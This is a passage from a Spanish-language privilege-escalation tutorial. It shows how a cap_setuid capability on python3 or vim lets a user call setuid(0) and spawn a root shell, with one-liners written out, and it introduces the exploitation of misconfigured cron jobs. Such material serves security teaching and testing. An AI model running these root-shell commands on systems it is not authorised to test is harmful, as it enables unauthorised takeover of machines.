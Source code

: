 Nota: Se debe asignar el permiso al archivo original y no a un enlace simbólico.

```bash
setcap cap_setuid+ep /usr/bin/python3.10
```

![Untitled](/assets/Privesc/Exploiting-Capabilities/20cc9d0e7a1d7347b0b24da07ebfadde74/Untitled 2.png)

El atacante se puede aprovechar de esta vulnerabilidad para cambiar el UID del usuario actual por el del usuario root:

```bash
python3 -c 'import os; os.setuid(0); os.system("bash")'
```

![Untitled](/assets/Privesc/Exploiting-Capabilities/20cc9d0e7a1d7347b0b24da07ebfadde74/Untitled 3.png)

### cap_setuid=ep - vim

Para este ejemplo se asignará la capability a vim.

Nota: Se debe asignar el permiso al archivo original y no al enlace simbólico.

```bash
setcap cap_setuid+ep /usr/bin/vim.basic
```

![Untitled](/assets/Privesc/Exploiting-Capabilities/20cc9d0e7a1d7347b0b24da07ebfadde74/Untitled 4.png)

El atacante ahora se puede aprovechar de este permiso para elevar su privilegio:

Nota: Usar la versión de python correspondiente, en este caso se usa “py3”.

```bash
# Obtener una sh
$(which vim) -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

# Obtener una bash
$(which vim) -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "bash", "-c", "reset; exec bash")'
```

![Untitled](/assets/Privesc/Exploiting-Capabilities/20cc9d0e7a1d7347b0b24da07ebfadde74/Untitled 5.png)


# Detección y explotación de tareas Cron
    
Una tarea **cron** es una tarea programada en sistemas Unix/Linux que se ejecuta en un momento determinado o en intervalos regulares de tiempo. Estas tareas se definen en un archivo **crontab** que especifica qué comandos deben ejecutarse y cuándo deben ejecutarse.
    
La detección y explotación de tareas cron es una técnica utilizada por los atacantes para elevar su nivel de acceso en un sistema comprometido. Por ejemplo, si un atacante detecta que un archivo está siendo ejecutado por el usuario “root” a través de una tarea cron que se ejecuta a intervalos regulares de tiempo, y se da cuenta de que los permisos definidos en el archivo están mal configurados, podría manipular el contenido del mismo para incluir instrucciones maliciosas las cuales serían ejecutadas de forma privilegiada como el usuario ‘root’, dado que corresponde al usuario que está ejecutando dicho archivo.
    